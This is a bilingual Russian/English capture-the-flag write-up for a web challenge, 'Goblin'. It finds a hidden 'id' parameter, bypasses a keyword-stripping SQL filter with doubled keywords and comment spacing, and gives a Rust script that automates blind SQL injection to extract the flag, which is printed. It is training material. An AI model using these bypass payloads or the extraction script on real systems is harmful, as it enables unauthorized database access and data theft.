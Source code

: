 # Goblin

> Да кому нужны эти рекурсии, хах? *(Я так и не понял про что это)*

Страница встречает нас следующим текстом *(текст воссоздан по памяти)*:

```html
There is a hidden parameter somewhere...
```

Используя [Hidden-Parameter-Injector](https://github.com/RobertJonnyTiger/Hidden-Parameter-Injector)
найдем этот параметр:

```bash
$ python3 inject.py -u http://...

[>>] Listing all parameters from: common-params.txt
[>>] Starting parameters injection...

[>>] Injecting to: http://...
        [V] Accepted Parameter: id
```

Если его приписать в конец ссылки `?id`, то страница пишет, что пользователь не найден, а если дать
ему некоторое цифровое значение, то оно выводит профиль какого-то пользователя.

Дальше проверяем параметр на SQL Injection: приписываем `'`. MySQL сервера начинает ругаться на это,
а значит можно воспользоваться всем арсеналом этой атаки.

В ходе проверки некоторыми запросами, оказалось, что сервер имеет какую-то защиту в виде удаления
не понравившихся ей подстрок. Воспользуясь [подсказками от PortSwigger](https://portswigger.net/support/sql-injection-bypassing-common-filters),
получим следующие (или подобные) замены:

```sql
AND -> AANDND
FROM -> FRFROMOM
WHERE -> WHWHEREERE
SELECT -> SELSELECTECT
OR -> OORR
AS -> AASS
IF -> IIFF
  -> /**/
```

После удаления подстрок в строках справа, они будут преобразованы в нужные нам строки слева.

Например, для следующего запроса который мы будем использовать (между `1'...#`), соответствует
следующая замена:

```sql
and(select 1 from information_schema.tables where table_name like 'f%' limit 1)

aandnd(selselectect/**/1/**/from/**/infoorrmation_schema.tables/**/where/**/table_name/**/like/**/'%f%'/**/limit/**/1/**/)
```

> [!IMPORTANT]
> `information_schema -> infoorrmation_schema`

Данный запрос отвечает, что пользователь не найден, если нет данных соответствующих `LIKE`.

С помощью ручного подбора через `information_schema.tables where table_name like '%flag%'` и
`information_schema.columns where table_name='flag' and column_name like '%flag%'` найдем таблицу
`flag` и столбец `flag`.

Дальше подбор вручную немножко нецелесообразен, так что напишем небольшую программку. Ниже приведен
код на Rust с использованием `regex` и `reqwest` (под `tokio`).

> [!NOTE]
> Поле `flag.flag` не имеет чувствительности к регистру. Флаг, надеюсь, тоже.
>
> [!WARNING]
> Перебор будет искать ключевые слова (например, `grodno{andandand...`), если делать замены до
> подстановки текущего варианта. Причиной этого является замена сервером строки на `grodno{`,
> которая является правильной под фильтром `LIKE`.

```rust
use regex::Regex;

#[tokio::main]
async fn main() {
    let url = format!(
        r#"http://.../?id=1'and(select 1 from flag where flag like "%AAA%" limit 1);"#
    );

    let alphabet = r#"abcdefghijklmnopqrstuvwxyz0123456789_{}"#;

    let mut cf = String::from("grodno{");

    let keywords = ["and", "from", "where", "select", "or", "as", "if"];

    'outer: loop {
        for c in alphabet.chars() {
            let curr_flag = format!("{}{}", cf, c);
            let mut url = url.replace("AAA", &curr_flag).replace(" ", "/**/");

            for keyword in keywords {
                // inefficient, move `Regex::new` to `keywords`
                let regex = Regex::new(&format!("(?i){}", keyword)).unwrap();
                
                // SELECT -> SSELECTELECT
                url = regex
                    .replace_all(
                        &url,
                        format!("{}{}{}", &keyword[0..1], keyword, &keyword[1..]),
                    )
                    .to_string();
            }

            let body = reqwest::get(url).await.unwrap().text().await.unwrap();
            if !body.contains("does not exist") {
                println!("{}", curr_flag);
                cf = curr_flag;
                continue 'outer;
            }
        }
    }
}
```

Флаг:

```plain
grodno{3asy_sq1i_h3h3}
```

---

> Who needs these recursions, huh? *(I still don't get what this is about)*
*(EN version uses "huh" as opposed to "haha")*

The page greets us with the following text *(text recreated by memory)*:

```html
There is a hidden parameter somewhere...
```

Using [Hidden-Parameter-Injector](https://github.com/RobertJonnyTiger/Hidden-Parameter-Injector)
it can be found:

```bash
$ python3 inject.py -u http://...

[>>] Listing all parameters from: common-params.txt
[>>] Starting parameters injection...

[>>] Injecting to: http://...
        [V] Accepted Parameter: id
```

If `?id` is appended to the link, the page states that some user was not found, and if you give it
some number value, it outputs a profile of a matching user.

Next we check the parameter for SQL Injection: appending `'`. MySQL server starts complaining about
this, thus we can use the entirety of the attack's arsenal.

While trying some queries, it turns out, that the server has some kind of protection in the form of
deleting some substrings it does not like. Using [PortSwigger's hints](https://portswigger.net/web-security/sql-injection/bypass/1),
we get the following replacements:

```sql
AND -> AANDND
FROM -> FRFROMOM
WHERE -> WHWHEREERE
SELECT -> SELSELECTECT
OR -> OORR
AS -> AASS
IF -> IIFF
  -> /**/
```

After deleting the substrings in the strings at the right hand side, we will have the wanted strings
at the left hand side.

For example, for the following query which we will be using (between `1'...#`), we will have the
following replacement:

```sql
and(select 1 from information_schema.tables where table_name like 'f%' limit 1)

aandnd(selselectect/**/1/**/from/**/infoorrmation_schema.tables/**/where/**/table_name/**/like/**/'%f%'/**/limit/**/1/**/)
```

> [!IMPORTANT]
> `information_schema -> infoorrmation_schema`

This query responds that user does not exist if there are no matches for the `LIKE` filter.

With a manual brute-force via `information_schema.tables where table_name like '%flag%'` and
`information_schema.columns where table_name='flag' and column_name like '%flag%'`, we find the
table `flag` and the column `flag`.

Next manual approach is a bit unwieldy, and it would make more sense to write a small program. Below
you can see Rust code that uses `regex` and `reqwest` (under `tokio`).

> [!NOTE]
> Field `flag.flag` is case-insensitive. Flag, I hope, too.
>
> [!WARNING]
> Brute-force will look for keywords (e.g. `grodno{andandand...`), if you perform replacements
> before substituting the current variant. This is because server will replace it by `grodno{`,
> which is valid under the `LIKE` filter.

```rust
use regex::Regex;

#[tokio::main]
async fn main() {
    let url = format!(
        r#"http://.../?id=1'and(select 1 from flag where flag like "%AAA%" limit 1);"#
    );

    let alphabet = r#"abcdefghijklmnopqrstuvwxyz0123456789_{}"#;

    let mut cf = String::from("grodno{");

    let keywords = ["and", "from", "where", "select", "or", "as", "if"];

    'outer: loop {
        for c in alphabet.chars() {
            let curr_flag = format!("{}{}", cf, c);
            let mut url = url.replace("AAA", &curr_flag).replace(" ", "/**/");

            for keyword in keywords {
                // inefficient, move `Regex::new` to `keywords`
                let regex = Regex::new(&format!("(?i){}", keyword)).unwrap();
                
                // SELECT -> SSELECTELECT
                url = regex
                    .replace_all(
                        &url,
                        format!("{}{}{}", &keyword[0..1], keyword, &keyword[1..]),
                    )
                    .to_string();
            }

            let body = reqwest::get(url).await.unwrap().text().await.unwrap();
            if !body.contains("does not exist") {
                println!("{}", curr_flag);
                cf = curr_flag;
                continue 'outer;
            }
        }
    }
}
```

Flag:

```plain
grodno{3asy_sq1i_h3h3}
```
